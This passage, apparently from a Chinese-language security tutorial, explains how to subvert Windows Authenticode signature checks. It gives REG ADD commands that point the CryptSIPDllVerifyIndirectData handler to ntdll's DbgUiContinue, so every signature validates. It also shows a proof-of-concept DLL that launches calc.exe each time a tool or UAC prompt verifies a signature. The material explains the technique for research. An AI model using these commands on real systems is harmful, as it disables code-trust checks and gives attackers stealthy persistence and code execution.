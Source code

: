 所以，可以查找系统默认的dll，找到一个导出函数返回true即可（当然，此处可供利用的导出函数有很多）

例如`"C:\Windows\System32\ntdll.dll" `

导出函数：`DbgUiContinue`

代码如下：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\Windows\System32\ntdll.dll" /f

REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "DbgUiContinue" /f
```

这样，就不需要在系统上留下自己编写的dll

对于64位系统，存在32位的注册表键值

如果使用32位的程序，如32位的signtool和sigcheck，为了绕过验证，还需要修改32位的注册表键值，对应代码如下：

```
REG ADD "HKLM\SOFTWARE\Wow6432Node\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\Windows\System32\ntdll.dll" /f

REG ADD "HKLM\SOFTWARE\Wow6432Node\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "DbgUiContinue" /f
```

## 0x04 签名验证劫持
---

修改注册表，编写dll实现对签名验证过程的绕过，如果我们在dll的导出函数里面加入自己的代码，这就实现了签名验证劫持

在签名验证中加入执行代码：

```
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
					 )
{
    return TRUE;
}
BOOL WINAPI test1() 
{
	WinExec("calc.exe",SW_SHOWNORMAL);
	return TRUE;
}
```

只要涉及签名验证的操作，加载我们自己的dll，就会弹出计算器

以下程序会使用签名验证操作：

- DllHost.exe - When the “Digital Signatures” tab is displayed in file properties
- Process Explorer - When the “Verified Signer” tab is displayed
- Autoruns
- Sigcheck
- consent.exe - Any time a UAC prompt is displayed
- signtool.exe
- smartscreen.exe
- Get-AuthenticodeSignature
- Set-AuthenticodeSignature
- Security vendor software that performs certificate validation based on calls to WinVerifyTrust.
